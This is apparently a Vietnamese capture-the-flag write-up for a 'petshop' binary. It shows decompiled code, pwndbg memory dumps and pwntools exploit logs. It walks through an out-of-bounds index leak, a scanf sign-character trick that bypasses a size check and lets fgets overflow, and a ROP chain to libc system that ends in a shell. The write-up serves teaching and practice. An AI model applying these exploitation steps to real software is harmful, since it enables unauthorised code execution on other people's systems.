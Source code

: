 # write up petshop 
```c
     if (__isoc99_sscanf(input, "%3s %d", &name, &idx) == 2)
        {
            idx -= 1;
            (unsigned int)ptr = malloc(16);
            *((int *)&(&pet_list)[8 * pet_count]) = rax<8>;
            if (!strncmp(&name, "cat", 3, rax<8>))
            {
                if (idx <= 3)
                {
                    *((long long *)*((long long *)&(&pet_list)[8 * pet_count])) = *((long long *)&(&cats)[8 * idx]);
                }
                else
                {
                    puts("Invalid type of cat!");
                    *((long long *)&(&pet_list)[8 * pet_count]) = 0;
                    goto LABEL_401538;
                }
            }     
            ...
```
- thông qua đoạn code trên thấy rằng idx đầu vào là 1 số nguyên có dấu và chỉ check <=3 mà không check >0 nên bài đã bị out of bound
- vì thế khi nhập idx âm thì ta có thể đưa 1 dữ liệu nào đó ngoài vùng tên pets nào đó vào pet_list 
```assembly 
    0c:0060│  0x555555557f80 (strncmp@got[plt]) —▸ 0x7ffff7f59230 (__strncmp_avx2) ◂— endbr64 
    0d:0068│  0x555555557f88 (puts@got[plt]) —▸ 0x7ffff7e59420 (puts) ◂— endbr64 
    0e:0070│  0x555555557f90 (setbuf@got[plt]) —▸ 0x7ffff7e60ad0 (setbuf) ◂— endbr64 
    0f:0078│  0x555555557f98 (printf@got[plt]) —▸ 0x7ffff7e36c90 (printf) ◂— endbr64 
    pwndbg> 
    10:0080│  0x555555557fa0 (memset@got[plt]) —▸ 0x7ffff7f60d90 (__memset_avx2_unaligned_erms) ◂— endbr64 
    11:0088│  0x555555557fa8 (fgets@got[plt]) —▸ 0x7ffff7e57630 (fgets) ◂— endbr64 
    12:0090│  0x555555557fb0 (getchar@got[plt]) —▸ 0x7ffff7e60560 (getchar) ◂— endbr64 
    13:0098│  0x555555557fb8 (malloc@got[plt]) —▸ 0x7ffff7e6f0e0 (malloc) ◂— endbr64 
    14:00a0│  0x555555557fc0 (__isoc99_sscanf@got.plt) —▸ 0x7ffff7e38270 (__isoc99_sscanf) ◂— endbr64 
    15:00a8│  0x555555557fc8 (__isoc99_scanf@got.plt) —▸ 0x7ffff7e380b0 (__isoc99_scanf) ◂— endbr64 
    16:00b0│  0x555555557fd0 (strdup@got[plt]) —▸ 0x7ffff7e74370 (strdup) ◂— endbr64 
    17:00b8│  0x555555557fd8 ◂— 0
    pwndbg> 
    18:00c0│  0x555555557fe0 —▸ 0x7ffff7df8f90 (__libc_start_main) ◂— endbr64 
    19:00c8│  0x555555557fe8 ◂— 0
    1a:00d0│  0x555555557ff0 ◂— 0
    1b:00d8│  0x555555557ff8 —▸ 0x7ffff7e1bf10 (__cxa_finalize) ◂— endbr64 
    1c:00e0│  0x555555558000 (data_start) ◂— 0
    1d:00e8│  0x555555558008 (__dso_handle) ◂— 0x555555558008 (__dso_handle) # đây chính là địa chỉ có thể leak vì nó trỏ tới chính nó nên khi lấy dữ liệu ra thì nó lấy dữ liệu là chính nó theo cách mà nó lấy tên của mấy con pets
    1e:00f0│  0x555555558010 (__dso_handle+8) ◂— 0
    1f:00f8│  0x555555558018 (__dso_handle+16) ◂— 0
    pwndbg> 
    20:0100│  0x555555558020 (cats) —▸ 0x555555556008 ◂— 'British Shorthair' # tên của mấy con pets ở đây 
    21:0108│  0x555555558028 (cats+8) —▸ 0x55555555601a ◂— 'Scottish Fold'
    22:0110│  0x555555558030 (cats+16) —▸ 0x555555556028 ◂— 0x6573656d616953 /* 'Siamese' */
    23:0118│  0x555555558038 (cats+24) —▸ 0x555555556030 ◂— 0x6c41006e61697341 /* 'Asian' */
    24:0120│  0x555555558040 (dogs) —▸ 0x555555556036 ◂— 'Alaskan Malamute'
    25:0128│  0x555555558048 (dogs+8) —▸ 0x555555556047 ◂— 0x6f47006967726f43 /* 'Corgi' */
    26:0130│  0x555555558050 (dogs+16) —▸ 0x55555555604d ◂— 'Golden Retriever'
    27:0138│  0x555555558058 (dogs+24) —▸ 0x55555555605e ◂— 'Chihuahua'
```
- sau khi có nơi để leak thì em leak địa chỉ và có được địa chỉ base rồi sau đó tính gadget để leak libc
```python
   sla(b"You    -->",b"buy cat -2")
   sla(b"You    -->",b"hello1")
   sla(b"You    -->",b"info mine")
```
- sau khi vào phần info là sẽ có được địa chỉ thay cho vị trí tên con pet
- tiếp theo nữa qua hàm sell, vì ta có thể set size cho fgets thông qua hàm scanf bên trên, nhưng có 1 điều là size đã được check kỹ càng 
```c
    if (scanf("%d", &size) != 1 || *((int *)&size) > 0 && *((int *)&size) <= 511)
    ...
   fgets(&buff, *((int *)&size), stdin);
```
- tuy nhiên có 1 ký tự đặc biệt khiến cho scanf không thể đọc được vì không có specifier nào của scanf đọc được nó, chính vì vậy có thể sử dụng nó để bypass scanf , dấu '+' hoặc dấu '-' và lấy 1 kích thước khủng cho fgets buff vì biến chứa size không được clear sau khi nhập lần đầu nên lợi dụng nó cho lần thứ 2
- vì dấu '+' và dấu '-' gây  ra EOF mà không gây break stdin nên vì thế fgets sẽ được nhập lần tiếp theo với size lớn, EOF gây ra nhằm làm 1 điều kiện trong if statement trở nên không thỏa mãn khiến ta có thể bypass check
```c
────────────────────────────[ DECOMPILER:ANGR:SELL:28 ]────────────────────────────
    23	        if (scanf("%d", &size) != 1 || *((int *)&size) > 0 && *((int *)&size) <= 511)
    24	        {
    25	            getchar();
    26	            puts("Seller --> Your reason?");
    27	            printf("You    --> ");
→   28	            fgets(&buff, *((int *)&size), stdin);
    29	            puts("Seller --> That seems reasonable!");
    30	        }
    31	        else
    32	        {
    33	            puts("Invalid size!");
───────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────
 ► 0x5555555556b1 <sell+367>    call   555555555140h               <fgets@plt>
        s: 0x7fffffffe4f0 ◂— 0
        n: 0x10c6
        stream: 0x7ffff7fc1980 (_IO_2_1_stdin_) ◂— 0xfbad208b
───────────────────────────────────────────────────────────────────────────────────
```
- vậy là ok, em chỉ cần dùng pop rdi có sẵn trong binary và 1 phần của hàm sell là có thể leak libc và thực hiện read tiếp 
```assembly
   0x0000555555555693 <+337>:	call   0x555555555120 <printf>
   0x0000555555555698 <+342>:	mov    rdx,QWORD PTR [rip+0x29d1]        # 0x555555558070
   0x000055555555569f <+349>:	mov    ecx,DWORD PTR [rbp-0x208]
   0x00005555555556a5 <+355>:	lea    rax,[rbp-0x200]
   0x00005555555556ac <+362>:	mov    esi,ecx
   0x00005555555556ae <+364>:	mov    rdi,rax
   0x00005555555556b1 <+367>:	call   0x555555555140 <fgets>
   0x00005555555556b6 <+372>:	lea    rdi,[rip+0xb2b]        # 0x5555555561e8
   0x00005555555556bd <+379>:	call   0x555555555100 <puts>
   0x00005555555556c2 <+384>:	leave
   0x00005555555556c3 <+385>:	ret
```
- sau khi có libc và có được gadgets thì em sẽ overwrite lần nữa
```bash
    b'Seller --> That seems reasonable!\n'
[DEBUG] Received 0x6 bytes:
    00000000  20 94 e5 f7  ff 7f                                  │ ···│··│
    00000006
[*] libc_system: 0x7ffff7e27290
[*] bin_sh_libc: 0x7ffff7f895bd
[*] leaking libc: 0x7ffff7e59420
[*] base libc: 0x7ffff7dd5000
```
- vậy là lấy được shell rồi
```bash
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x87 bytes:
    b'a.py\t    libc-2.31.so  petshop      petshop.md  petshope.adb   solve.py\n'
    b'ld-2.31.so  libc.so.6\t  petshop.adb  petshope    petshope.bndb\n'
a.py        libc-2.31.so  petshop      petshop.md  petshope.adb   solve.py
ld-2.31.so  libc.so.6      petshop.adb  petshope    petshope.bndb
$ uname -a 
[DEBUG] Sent 0xa bytes:
    b'uname -a \n'
[DEBUG] Received 0x4c bytes:
    b'Linux archlinux 6.1.82 #1 SMP Tue Mar 26 17:53:34 +07 2024 x86_64 GNU/Linux\n'
Linux archlinux 6.1.82 #1 SMP Tue Mar 26 17:53:34 +07 2024 x86_64 GNU/Linux
$  
```

